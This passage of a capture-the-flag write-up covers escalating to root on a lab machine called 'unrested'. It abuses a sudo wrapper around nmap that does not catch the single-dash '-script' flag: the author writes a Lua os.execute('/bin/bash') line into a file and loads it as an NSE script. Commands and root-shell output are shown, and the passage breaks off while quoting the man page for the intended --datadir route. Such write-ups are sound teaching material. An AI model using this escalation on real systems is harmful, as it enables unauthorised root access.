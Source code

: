 ```
style identifier fill:#1d1d1d,color:#FFFFFFFF;

```

#### One Dash Script

The easiest way to get root from here is a twist on the `--script` argument. `nmap` is nice enough to handle `-script` just as it would `--script`. But the wrapper script isn’t checking for that!

So I can:

```

zabbix@unrested:~$ echo 'os.execute("/bin/bash")' > test.sh
zabbix@unrested:~$ sudo nmap -script=test.sh                
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-01 01:17 UTC
NSE: Warning: Loading 'test.sh' -- the recommended file extension is '.nse'.
root@unrested:/var/lib/zabbix# reset: unknown terminal type unknown
Terminal type? screen
root@unrested:/var/lib/zabbix# id
uid=0(root) gid=0(root) groups=0(root)

```

When I first get a root prompt out of `nmap`, nothing I type is shown, but a `reset` command fixes that and it’s a fully functional terminal, good enough to read the flag:

```

root@unrested:/var/lib/zabbix# cat /root/root.txt
2111a8ca************************

```

#### Data Directory

The intended path for this box is to abuse the `--datadir` option, which the man page for `nmap` says:

> ```

>    --datadir directoryname (Specify custom Nmap data file location)
>        Nmap obtains some special data at runtime in files named nmap-service-probes, nmap-services,
>        nmap-protocols, nmap-rpc, nmap-mac-prefixes, and nmap-os-db. If the location of any of these files has
>        been specified (using the --servicedb or --versiondb options), that location is used for that file.
>        After that, Nmap searches these files in the directory specified with the --datadir option (if any). Any
>        files not found there, are searched for in the directory specified by the NMAPDIR environment variable.
>        Next comes ~/.nmap for real and effective UIDs; or on Windows, HOME\AppData\Roaming\nmap (where HOME is
>        the user's home directory, like C:\Users\user). This is followed by the location of the nmap executable
>        and the same location with ../share/nmap appended. Then a compiled-in location such as
>        /usr/local/share/nmap or /usr/share/nmap.
>
> ```
